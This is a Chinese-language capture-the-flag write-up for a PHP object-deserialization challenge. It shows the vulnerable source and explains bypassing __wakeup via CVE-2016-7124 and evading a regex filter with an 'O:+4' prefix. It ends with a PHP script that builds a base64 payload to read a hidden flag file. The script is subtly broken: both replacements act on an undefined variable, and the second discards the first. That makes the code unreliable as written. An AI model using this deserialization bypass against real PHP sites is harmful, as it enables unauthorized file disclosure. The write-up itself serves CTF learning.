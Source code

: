 ## Web_php_unserialize

php反序列化加一些奇奇怪怪的绕过

题目源码

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

我们希望能读到fl4g.php

所以要借助反序列化中的__destruct()函数，但是\_\_wakeup()会覆盖我们写进去的地址

这里涉及到一个漏洞

[CVE-2016-7124](https://bugs.php.net/bug.php?id=72663)

简单来说就是**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

那么preg_match的过滤怎么办呢

根据正则表达式的语法可知，检测的应该是类似 O:4:这样的

>  [oc]字符组 /d 数字 /i 忽略大小写

可以加个+来绕过

一开始自己写序列化对象怎么写都不对

但其实可以用php输出一个序列化对象，然后再改。。。。

或者也可以直接用脚本

```php
<?php
class Demo {
    private $file = 'index.php';
    public function __construct($file) {
        $this->file = $file;
    }
    function __destruct() {
        echo @highlight_file($this->file, true);
    }
    function __wakeup() {
        if ($this->file != 'index.php') {
            //the secret is in the fl4g.php
            $this->file = 'index.php';
        }
    }
}
    $o = new Demo('fl4g.php');
    $s = serialize($o);
    //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
    $s = str_replace('O:4', 'O:+4',$b);//绕过__preg_match
    $s = str_replace(':1:', ':2:',$b);//绕过__wakeup
    echo (base64_encode($s));//payload
 ?>
```



### 参考资料

正则表达式：

https://www.cnblogs.com/zery/p/3438845.html

https://blog.csdn.net/weixin_33682790/article/details/85996972